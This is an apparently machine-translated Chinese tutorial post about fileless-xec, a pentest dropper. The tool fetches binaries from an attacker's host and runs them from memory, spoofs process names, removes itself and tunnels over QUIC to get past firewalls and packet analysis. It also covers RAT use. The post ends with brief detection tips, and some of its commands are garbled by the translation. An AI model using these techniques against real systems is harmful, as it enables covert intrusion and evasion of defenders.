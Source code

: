 # 执行远程二进制文件而不把它们放到磁盘上

> 原文：<https://kalilinuxtutorials.com/fileless-xec/>

[![](img//9292b7a5acd3aa3f52954e82a37a9d55.png)](https://blogger.googleusercontent.com/img/a/AVvXsEg1m-Vylnb0A_Yx1JWmDXKb7WkdwK7zmA8NmnJKV60kFCbw_MLFxlBve_oLdhcUTVyIr9OSfO_LvISnVhg9gI8SL9i2CXkC5TBW8MMuvHIEPj2giAjl4fpWws3qQJraL6t0JkOibns5jXvuSrvRA55AfFEJOkOeZ_50gT0VS1UAeqht49Jw5rTYm8QR=s909)

Fileless-Xec 是一个秘密的下载程序，它执行远程二进制文件，而不把它们放到磁盘上

***Pentest 用途:*** `**fileless-xec**`用于在目标机器上秘密执行位于攻击者机器上的二进制文件

**短篇小说**

使我们能够直接从内存中在本地机器上执行远程二进制文件，而无需将它们放到磁盘上

**安装**

**从发布**

*Linux:*

**curl-lO-L https://github . com/ariary/file less-xec/releases/latest/download/file less-xec**

*视窗:*

**curl-lO-L https://github . com/ariary/file less-xec/releases/latest/download/file less-xec _ windows . exe**

**来源于**

克隆存储库并在本地下载依赖项:

**git 克隆 https://github.com/ariary/fileless-xec.git
CD 无文件-xec
make before.build**

为 linux 构建无文件 xec

**build.fileless-xec**

为 windows 构建无文件 xec

**windows . build . file less-xec**

**用`go`命令**

确保`**$GOPATH**`在你的`**$PATH**`之前

安装`**fileless-xec**`

**去安装 github.com/ariary/fileless-xec/cmd/fileless-xec**

**解释**

我们希望在本地执行位于远程机器上的`**writeNsleep**`二进制文件。

我们首先在 remote 上启动一个 python http 服务器。在本地，我们使用`**fileless-xe**c`并模拟`**/usr/sbin/sshd**`的名字来执行二进制代码`**writeNsleep**`(为了偷瘦&的乐趣)。一旦 write N sleep 开始，fileless-xec 将删除自身(`**--self-remove**`)

**其他用例**

*   使用 stdout/stdin 执行二进制文件
*   执行带参数的二进制
*   `fileless-xec`自我清除
*   使用 ICMP 绕过网络限制
*   使用 HTTP3 绕过防火墙
*   “远程 go”:在本地没有安装 go 的情况下执行 go 二进制文件
*   执行外壳脚本
*   `**fileless-xec**`服务器模式
    *   RAT(远程访问特洛伊木马)场景
*   `**fileless-xec**`在 windows 上

**偷情故事**

*   二进制文件不会映射到主机文件系统中
*   执行程序名称可以是可定制的
*   可以通过 http3 支持绕过第三代防火墙
*   `**fileless-xec**`一旦启动，自我移除

**memfd_create**

远程二进制文件使用`**memfd_create**` syscall 存储在本地，syscall 将它存储在一个*内存磁盘*中，这个磁盘没有映射到文件系统中(*即*你无法使用`**ls**`找到它)。

**fexecve**

然后我们使用`**fexecve**` syscall 执行它(因为目前`**syscall**` golang 库没有提供它，所以我们实现了它)。

使用`fexecve`我们可以执行一个程序，但是我们使用文件描述符而不是完整路径来引用程序运行。

**HTTP3/QUIC**

| 用 **`-Q` / `http3`** 标志使能。
通过运行`**go run ./test/http3/light-server.go -p LISTENING PORT**`(这是相当于`**python3 -m http.server **`的 http3)可以设置一个支持 http3 的轻量级 web rootfs 服务器
使用`**test/http3/genkey.sh**`生成证书和密钥。 |

`**QUIC**` UDP 又名 **`http3`** 是新一代互联网协议，用于加速易受延迟影响的在线网络应用，如搜索、视频流等。，通过减少连接到服务器所需的往返时间(RTT)。

由于 QUIC 使用等同于 TLS 的专有加密(这将在未来的标准化版本中有所改变)，提供应用程序控制和可见性的第三代防火墙在控制和监控 QUIC 流量方面遇到了困难。

如果你实际上使用`**fileless-xec**`作为一个丢弃器( ***仅用于测试目的或经授权*** )，你很可能想执行某种恶意软件或其他可能被数据包分析丢弃的文件。因此，有了 Quic，你就可以**绕过数据包分析，获得恶意软件**。

此外，如果防火墙仅用于允许/阻止流量，可能会发生**防火墙规则忘记了 udp 协议，从而使您的请求不被发现**

**其他潜行技能**

虽然不存在于内存磁盘上，但仍可使用`ps`命令检测到正在运行的程序。

1.  用一个假的程序名掩盖痕迹

`**fileless-xec --name <fake_name> <binary_raw_url>**`默认名称为`**[kworker/u:0]**`

2.  从 tty 分离以映射守护进程的行为

`**setsid fileless-xec <binary_raw_url>**`。*从代码*调用 WIP`**setsid**`

**告诫**

你仍然会被检测到:

**$ lsof | grep memfd**

或者也是`**opensnoop**`(但不是由`**execsnoop**`)

或者 sec comp profile auditing`**execve**`syscall(但是这是一个非常难以控制的命令，因为`**sleep**`命令也使用 execve)

[**Download**](https://github.com/ariary/fileless-xec)